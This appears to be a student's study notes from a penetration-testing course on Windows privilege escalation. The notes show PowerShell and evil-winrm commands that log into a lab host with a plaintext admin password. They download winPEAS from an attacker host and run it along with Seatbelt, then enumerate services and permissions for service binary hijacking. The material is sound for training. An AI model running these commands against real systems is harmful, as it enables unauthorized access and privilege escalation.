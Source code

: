 ```PowerShell
$password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force
```

```PowerShell
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
```

```PowerShell
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
```
#### Using evil-winrm to connect to CLIENTWK220 as daveadmin
```Shell
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123!!"
```
#### Open Event Viewer and navigate to the following log location: Applications and Services Logs > Microsoft > Windows > PowerShell > Operational
![[event viwer.png]]
### 16.1.5. Automated Enumeration
#### Download winpeas onto Windows Host
```PowerShell
iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
```
#### Run winPEAS
```PowerShell
.\winPEAS.exe
```
#### Run Seatbelt
```PowerShell
.\Seatbelt.exe -group=all
```
## 16.2. Leveraging Windows Services
### 16.2.1. Service Binary Hijacking
#### Generate a list of services with binary path
```PowerShell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```
==Using `Get-CimInstance` and `Get-Service` in Evil-WinRM or a bind shell will result in "Permission Denied"==

Based on the output in Listing 40, the two XAMPP services _Apache2.4_ and _mysql_ stand out as the binaries are located in the `C:\xampp\` directory instead of `C:\Windows\System32`. This means the service is user-installed and the software developer is in charge of the directory structure as well as permissions of the software. These circumstances make it potentially prone to service binary hijacking.
#### Permission Codes
|MASK|PERMISSIONS|
|---|---|
|F|Full access|
|M|Modify access|
|RX|Read and execute access|
|R|Read-only access|
|W|Write-only access|
#### Permissions of _httpd.exe_
```PowerShell
icacls "C:\xampp\apache\bin\httpd.exe"
```